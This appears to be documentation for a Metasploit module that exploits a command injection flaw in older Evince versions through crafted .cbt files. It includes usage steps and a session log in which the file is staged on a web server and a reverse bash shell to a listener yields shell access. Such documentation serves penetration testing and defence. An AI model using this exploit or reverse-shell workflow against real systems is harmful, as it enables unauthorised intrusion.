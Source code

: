 ## Description

  This module exploits a command injection vulnerability in Evince
  before version 3.24.1 when opening comic book `.cbt` files.

  Some file manager software, such as Nautilus and Atril, may allow
  automatic exploitation without user interaction due to thumbnailer
  preview functionality.

  Note that limited space is available for the payload (<256 bytes).
  Reverse Bash and Reverse Netcat payloads should be sufficiently small.


## Vulnerable Application

  [Evince](https://wiki.gnome.org/Apps/Evince) is a document viewer
  for multiple document formats.

  This module has been tested successfully on evince versions:

  * 3.4.0-3.1 + nautilus 3.4.2-1+build1 on Kali 1.0.6
  * 3.18.2-1ubuntu4.3 + atril 1.12.2-1ubuntu0.3 on Ubuntu 16.04


## Verification Steps

  1. ```use exploit/multi/fileformat/evince_cbt_cmd_injection```
  2. ```set PAYLOAD <PAYLOAD>```
  3. ```run```
  4. The module should generate the malicious `cbt` file


## Options

  **FILENAME**

  The cbt document file name (default: `msf.cbt`)


## Scenarios

  ```
  msf5 > use exploit/multi/fileformat/evince_cbt_cmd_injection 
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > run

  [*] Writing file: msf.cbt (1078272 bytes) ...
  [+] msf.cbt stored at /root/.msf4/local/msf.cbt
  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > mv /root/.msf4/local/msf.cbt /var/www
  [*] exec: mv /root/.msf4/local/msf.cbt /var/www

  msf5 exploit(multi/fileformat/evince_cbt_cmd_injection) > use exploit/multi/handler 
  msf5 exploit(multi/handler) > set payload cmd/unix/reverse_bash
  payload => cmd/unix/reverse_bash
  msf5 exploit(multi/handler) > set lhost 172.16.191.188
  lhost => 172.16.191.188
  msf5 exploit(multi/handler) > run

  [*] Started reverse TCP handler on 172.16.191.188:4444 
  [*] Command shell session 1 opened (172.16.191.188:4444 -> 172.16.191.160:39362) at 2019-02-03 00:16:59 -0500

  id
  uid=1000(test) gid=1000(test) groups=1000(test),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),113(lpadmin),128(sambashare)
  uname -a
  Linux ubuntu-16-04-x64 4.4.0-140-generic #166-Ubuntu SMP Wed Nov 14 20:09:47 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
  ```

